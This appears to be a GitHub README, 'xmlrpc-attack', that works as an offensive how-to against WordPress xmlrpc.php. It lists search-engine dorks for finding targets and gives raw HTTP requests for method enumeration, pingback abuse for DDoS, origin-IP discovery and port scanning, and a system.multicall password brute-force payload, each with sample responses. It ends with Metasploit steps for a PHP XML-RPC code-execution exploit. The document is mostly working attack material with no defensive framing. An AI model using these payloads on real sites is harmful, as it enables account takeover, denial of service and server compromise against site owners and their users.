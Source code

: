 # xmlrpc-attack
Exploiting the xmlrpc.php 
<br><br>

## Dorks for finding potential targets
- inurl:"/xmlrpc.php?rsd"
- intitle:"WordPress" inurl:"readme.html"
- allinurl:"wp-content/plugins/"

## Searching for XML-RPC servers on WordPress :
- Post Method :
  
  ```
  POST /xmlrpc.php HTTP/1.1
  Host: example.com
  Content-Length: 135

  <?xml version="1.0" encoding="utf-8"?>
  <methodCall>
  <methodName>system.listMethods</methodName>
  <params></params>
  </methodCall>
  ```

- The normal response should be :

  ```
    HTTP/1.1 200 OK
    Date: Mon, 01 Jul 2019 17:13:30 GMT
    Server: Apache
    Strict-Transport-Security: max-age=63072000; includeSubdomains; preload
    Connection: close
    Vary: Accept-Encoding
    Referrer-Policy: no-referrer-when-downgrade
    Content-Length: 4272
    Content-Type: text/xml; charset=UTF-8
    
    <?xml version="1.0" encoding="UTF-8"?>
    <methodResponse>
      <params>
      <param>
        <value>
      <array><data>
    <value><string>system.multicall</string></value>
    <value><string>system.listMethods</string></value>
    <value><string>system.getCapabilities</string></value>
    <value><string>demo.addTwoNumbers</string></value>
    <value><string>demo.sayHello</string></value>
    <value><string>pingback.extensions.getPingbacks</string></value>
    <value><string>pingback.ping</string></value>
    <value><string>mt.publishPost</string></value>
    ...
    <value><string>wp.getUsersBlogs</string></value>
    </data></array>
        </value>
      </param>
    </params>
    </methodResponse>

  ```

## XML-RPC pingbacks attacks
1. Distributed denial-of-service (DDoS) attacks<br>
1. Cloudflare Protection Bypass (find real server ip)<br>
1. XSPA (Cross Site Port Attack)<br>

```
POST /xmlrpc.php HTTP/1.1
Host: example.com
Content-Length: 303

<?xml version="1.0" encoding="UTF-8"?>
<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param>
<value><string>https://postb.in/1562017983221-4377199190203</string></value>
</param>
<param>
<value><string>https://example.com/</string></value>
</param>
</params>
</methodCall>
```

response :
```
HTTP/1.1 200 OK
Date: Mon, 01 Jul 2019 21:53:56 GMT
Server: Apache
Strict-Transport-Security: max-age=63072000; includeSubdomains; preload
Connection: close
Vary: Accept-Encoding
Referrer-Policy: no-referrer-when-downgrade
Content-Length: 370
Content-Type: text/xml; charset=UTF-8

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <fault>
    <value>
      <struct>
        <member>
          <name>faultCode</name>
          <value><int>0</int></value>
        </member>
        <member>
          <name>faultString</name>
          <value><string></string></value>
        </member>
      </struct>
    </value>
  </fault>
</methodResponse>
```

## Brute force attacks
```
POST /xmlrpc.php HTTP/1.1
Host: example.com
Content-Length: 1560

<?xml version="1.0"?>
<methodCall><methodName>system.multicall</methodName><params><param><value><array><data>

<value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member><member><name>params</name><value><array><data><value><array><data><value><string>\{\{ Your Username \}\}</string></value><value><string>\{\{ Your Password \}\}</string></value></data></array></value></data></array></value></member></struct></value>

<value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member><member><name>params</name><value><array><data><value><array><data><value><string>\{\{ Your Username \}\}</string></value><value><string>\{\{ Your Password \}\}</string></value></data></array></value></data></array></value></member></struct></value>

<value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member><member><name>params</name><value><array><data><value><array><data><value><string>\{\{ Your Username \}\}</string></value><value><string>\{\{ Your Password \}\}</string></value></data></array></value></data></array></value></member></struct></value>

<value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member><member><name>params</name><value><array><data><value><array><data><value><string>\{\{ Your Username \}\}</string></value><value><string>\{\{ Your Password \}\}</string></value></data></array></value></data></array></value></member></struct></value>

</data></array></value></param></params></methodCall>
```

response :
```
HTTP/1.1 200 OK
Date: Mon, 01 Jul 2019 23:02:55 GMT
Server: Apache
Strict-Transport-Security: max-age=63072000; includeSubdomains; preload
Connection: close
Vary: Accept-Encoding
Referrer-Policy: no-referrer-when-downgrade
Content-Length: 1043
Content-Type: text/xml; charset=UTF-8

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><struct>
  <member><name>faultCode</name><value><int>403</int></value></member>
  <member><name>faultString</name><value><string>Incorrect username or password.</string></value></member>
</struct></value>
  <value><struct>
  <member><name>faultCode</name><value><int>403</int></value></member>
  <member><name>faultString</name><value><string>Incorrect username or password.</string></value></member>
</struct></value>
  <value><struct>
  <member><name>faultCode</name><value><int>403</int></value></member>
  <member><name>faultString</name><value><string>Incorrect username or password.</string></value></member>
</struct></value>
  <value><struct>
  <member><name>faultCode</name><value><int>403</int></value></member>
  <member><name>faultString</name><value><string>Incorrect username or password.</string></value></member>
</struct></value>
</data></array>
      </value>
    </param>
  </params>
</methodResponse>
```

## PHP XML-RPC Arbitrary Code Execution
This exploits an arbitrary code execution flaw discovered in many implementations of the PHP XML-RPC module. This flaw is exploitable through a number of PHP web applications, including but not limited to Drupal, Wordpress, Postnuke, and TikiWiki.
<br><br>
To display the available options, load the module within the Metasploit console and run the commands 'show options' or 'show advanced' :

```
msf > use exploit/unix/webapp/php_xmlrpc_eval
msf exploit(php_xmlrpc_eval) > show targets
    ...targets...
msf exploit(php_xmlrpc_eval) > set TARGET < target-id >
msf exploit(php_xmlrpc_eval) > show options
    ...show and set options...
msf exploit(php_xmlrpc_eval) > exploit
```

